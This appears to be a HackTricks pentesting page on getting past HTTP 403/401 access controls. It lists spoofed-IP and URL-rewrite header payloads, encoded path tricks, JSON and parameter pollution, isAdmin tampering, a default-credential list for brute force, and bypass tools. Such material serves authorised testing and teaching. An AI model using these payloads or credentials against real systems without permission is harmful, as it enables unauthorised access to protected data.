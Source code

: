 # 403 & 401 Bypasses

{{#include ../../banners/hacktricks-training.md}}

## HTTP Verbs/Methods Fuzzing

Try using **different verbs** to access the file: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`

- Check the response headers, maybe some information can be given. For example, a **200 response** to **HEAD** with `Content-Length: 55` means that the **HEAD verb can access the info**. But you still need to find a way to exfiltrate that info.
- Using a HTTP header like `X-HTTP-Method-Override: PUT` can overwrite the verb used.
- Use **`TRACE`** verb and if you are very lucky maybe in the response you can see also the **headers added by intermediate proxies** that might be useful.

## HTTP Headers Fuzzing

- **Change Host header** to some arbitrary value ([that worked here](https://medium.com/@sechunter/exploiting-admin-panel-like-a-boss-fc2dd2499d31))
- Try to [**use other User Agents**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/User-Agents/UserAgents.fuzz.txt) to access the resource.
- **Fuzz HTTP Headers**: Try using HTTP Proxy **Headers**, HTTP Authentication Basic and NTLM brute-force (with a few combinations only) and other techniques. To do all of this I have created the tool [**fuzzhttpbypass**](https://github.com/carlospolop/fuzzhttpbypass).

  - `X-Originating-IP: 127.0.0.1`
  - `X-Forwarded-For: 127.0.0.1`
  - `X-Forwarded: 127.0.0.1`
  - `Forwarded-For: 127.0.0.1`
  - `X-Remote-IP: 127.0.0.1`
  - `X-Remote-Addr: 127.0.0.1`
  - `X-ProxyUser-Ip: 127.0.0.1`
  - `X-Original-URL: 127.0.0.1`
  - `Client-IP: 127.0.0.1`
  - `True-Client-IP: 127.0.0.1`
  - `Cluster-Client-IP: 127.0.0.1`
  - `X-ProxyUser-Ip: 127.0.0.1`
  - `Host: localhost`

  If the **path is protected** you can try to bypass the path protection using these other headers:

  - `X-Original-URL: /admin/console`
  - `X-Rewrite-URL: /admin/console`

- If the page is **behind a proxy**, maybe it's the proxy the one preventing you you to access the private information. Try abusing [**HTTP Request Smuggling**](../../pentesting-web/http-request-smuggling/index.html) **or** [**hop-by-hop headers**](../../pentesting-web/abusing-hop-by-hop-headers.md)**.**
- Fuzz [**special HTTP headers**](special-http-headers.md) looking for different response.
  - **Fuzz special HTTP headers** while fuzzing **HTTP Methods**.
- **Remove the Host header** and maybe you will be able to bypass the protection.

## Path **Fuzzing**

If _/path_ is blocked:

- Try using _**/**_**%2e/path \_(if the access is blocked by a proxy, this could bypass the protection). Try also**\_\*\* /%252e\*\*/path (double URL encode)
- Try **Unicode bypass**: _/**%ef%bc%8f**path_ (The URL encoded chars are like "/") so when encoded back it will be _//path_ and maybe you will have already bypassed the _/path_ name check
- **Other path bypasses**:
  - site.com/secret –> HTTP 403 Forbidden
  - site.com/SECRET –> HTTP 200 OK
  - site.com/secret/ –> HTTP 200 OK
  - site.com/secret/. –> HTTP 200 OK
  - site.com//secret// –> HTTP 200 OK
  - site.com/./secret/.. –> HTTP 200 OK
  - site.com/;/secret –> HTTP 200 OK
  - site.com/.;/secret –> HTTP 200 OK
  - site.com//;//secret –> HTTP 200 OK
  - site.com/secret.json –> HTTP 200 OK (ruby)
  - Use all [**this list**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt) in the following situations:
    - /FUZZsecret
    - /FUZZ/secret
    - /secretFUZZ
- **Other API bypasses:**
  - /v3/users_data/1234 --> 403 Forbidden
  - /v1/users_data/1234 --> 200 OK
  - {“id”:111} --> 401 Unauthriozied
  - {“id”:\[111]} --> 200 OK
  - {“id”:111} --> 401 Unauthriozied
  - {“id”:{“id”:111\}} --> 200 OK
  - {"user_id":"\<legit_id>","user_id":"\<victims_id>"} (JSON Parameter Pollution)
  - user_id=ATTACKER_ID\&user_id=VICTIM_ID (Parameter Pollution)

## **Parameter Manipulation**

- Change **param value**: From **`id=123` --> `id=124`**
- Add additional parameters to the URL: `?`**`id=124` —-> `id=124&isAdmin=true`**
- Remove the parameters
- Re-order parameters
- Use special characters.
- Perform boundary testing in the parameters — provide values like _-234_ or _0_ or _99999999_ (just some example values).

## **Protocol version**

If using HTTP/1.1 **try to use 1.0** or even test if it **supports 2.0**.

## **Other Bypasses**

- Get the **IP** or **CNAME** of the domain and try **contacting it directly**.
- Try to **stress the server** sending common GET requests ([It worked for this guy wit Facebook](https://medium.com/@amineaboud/story-of-a-weird-vulnerability-i-found-on-facebook-fc0875eb5125)).
- **Change the protocol**: from http to https, or for https to http
- Go to [**https://archive.org/web/**](https://archive.org/web/) and check if in the past that file was **worldwide accessible**.

## **Brute Force**

- **Guess the password**: Test the following common credentials. Do you know something about the victim? Or the CTF challenge name?
- [**Brute force**](../../generic-hacking/brute-force.md#http-brute)**:** Try basic, digest and NTLM auth.

```:Common creds
admin    admin
admin    password
admin    1234
admin    admin1234
admin    123456
root     toor
test     test
guest    guest
```

## Automatic Tools

- [https://github.com/lobuhi/byp4xx](https://github.com/lobuhi/byp4xx)
- [https://github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)
- [https://github.com/gotr00t0day/forbiddenpass](https://github.com/gotr00t0day/forbiddenpass)
- [Burp Extension - 403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)
- [Forbidden Buster](https://github.com/Sn1r/Forbidden-Buster)
- [NoMoreForbidden](https://github.com/akinerk/NoMoreForbidden)


{{#include ../../banners/hacktricks-training.md}}



